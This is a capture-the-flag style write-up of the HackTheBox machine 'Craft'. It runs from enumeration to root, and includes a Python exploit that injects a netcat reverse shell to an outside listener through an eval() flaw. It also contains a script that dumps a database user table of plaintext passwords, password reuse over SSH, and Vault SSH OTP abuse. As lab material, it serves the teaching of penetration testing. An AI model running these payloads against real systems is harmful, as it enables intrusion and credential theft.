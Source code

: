 ```yaml
---
title: "Craft"
date: 2020-01-03T18:10:15-05:00
draft: false
---
```


## **Introduction**
Craft is a medium-difficulty vulnerable machine on HackTheBox.eu. It is rated as primarily enumeration, life-like, and involving custom exploitation. 

## **Host Infomation**

IP: 10.10.10.110 available over VPN to VIP-hackthebox.eu

Ports: 22, 443, 6022

## **Attack Path**

There are a number of subdomains available for browsing once you navigate to https://10.10.10.110 and accept the insecure certificates. To navigate to these URIs more fluidly, simply add the following to your /etc/hosts file:

```bash
10.10.10.110    craft.htb api.craft.htb gogs.craft.htb vault.craft.htb
```

Navigating to the API at api.craft.htb and poking around a little reveals that we need valid credentials to generate API keys to make POST/PUT/DELETE requests to the endpoints. Nothing immediately jumps out as insecure so we navigate to the git repo available at gogs.craft.htb. Throwing truffleHog at this might be useful, but with some digging on the list of commits we can see Gilfoyle responding to an insecure commit made by Dinesh (shocker). 

**Bertram Gilfoyle**  
_I fixed the database schema so this is not an issue now.. Can we remove that sorry excuse for a "patch" before something awful happens?_  

The line of code being referenced:  

```python
if eval('%s > 1') % request.json['abv']):
```

_eval_ in python is dangerous as it directly executes any internal python code that is passed to it. We know right away from this that this POST method to the abv value in POST /brew is vulnerable to a python command injection, but since it requires a valid API key to make requests, we need to go digging. Dinesh actually leaked his API key (JWT token) in his issue submission in the repo, but when you decode the JWT it is time-based so it is a red-herring. Continuing to dig we can find Dinesh's credentials listed in one of his old test-files:  

In his "cleanup test" commit we can see that his user credentials are:  

> auth=('dinesh', '4aUh0A8PbVJxgd')

We can now provide these credentials, and just add them to his test script to not have to worry about writing our own code (although that is possible to do if you have the extra time).

We go right for the command injection on POST /brew. It took some digging but this blog post has exactly what we need.

_https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html_

My exploit code is below:
```python
print("Create bogus ABV brew")
brew_dict = {}
brew_dict['id']=29
brew_dict['abv'] = '__import__("os").system("mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc 10.10.14.28 4444 1>/tmp/backpipe")'
brew_dict['name'] = 'newbullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'
print(brew_dict)

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
print(response)
```  

We shouldn't even get a response.text or response print, those were simply for debug purposes, but we should get a reverse shell back to us on port 4444 immediately upon the eval() code executing server-side. A point of note here is our use of backpipes to create an execution layer in netcat, since the installed version does not have "-e" installed, we can just create the backpipe and then leverage it to give us /bin/sh. The relevant article is here:  

_https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/_

Upon connecting, we are _root_! But root in italics because after some enumeration we find we are in a docker container, cool! Looks like the application is running is "quarantined" in a Docker container, but somehow is able to do queries to the database for information, so there might be a way to dumb DB creds via SQL! 

We don't have to go far. Right in the **/opt/app** directoy that we land in upon getting our reverse shell we find a dbtest.py script that allows us to connect to the database and execute SQL commands. I will attach my altered SQL commands here which allow us to dump the entire user table from the database. Key points here are the existence of the user table which can be found in the Gilfoyle code commits in the git repo as well as the usage of "fetchall()" in our python dbattack.py script, the initial script has fetchOne() which only returns the first record. fetchall() from pymysql allows us to fetch all records. Alternatively I think it would be possible to directly query the mysql database from the command line as well if one were so inclined. 

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `username`, `password` FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

Running our scripts dumps all the user credentials (stored in plaintext, yay -_-):  
```bash
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},  
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},   
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```
Backing out and logging into Gilfoyles account on the repo reveals his SSH keys (which are encrypted and thanks to his password reuse, are decrypted using the same password as his login!)

```bash
$ ssh -i id_rsa gilfoyle@craft.htb
```

> user.txt achieved!

Executing LinEnum.sh in our /tmp directory allows us to see that there is a Docker instance running. Investigating this a little further we can see that there is a "Vault" application running that with some research, seems to allow us to generate SSH keys (those of a root user to be exact), we can poke around and find the related configuration files in the git repo, so essentially we are already root, we just need to figure out how to generate ourselves an SSH OTP and authenticate to the system as root. Lets give that a shot.

# Gilfoyle repo > craft-infra > vault > secrets.sh

relevant URI to help your research: _https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html_

```bash
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

## Final Commands | Root Achieved!

```bash
$ vault write ssh/roles/otp_key_role key_type=otp default_user=root cidr_list=0.0.0.0/0
$ vault write ssh/creds/otp_key_role ip=10.10.10.110
```

Those two commands will generate an SSH OTP key for you to use. Now just auth to SSH with:  
> ssh root@10.10.10.110

And paste the OTP into the password field and _voila_, you are root! Read the flag and root dance. 

```bash
root@craft:~# whoami
root
root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)
```





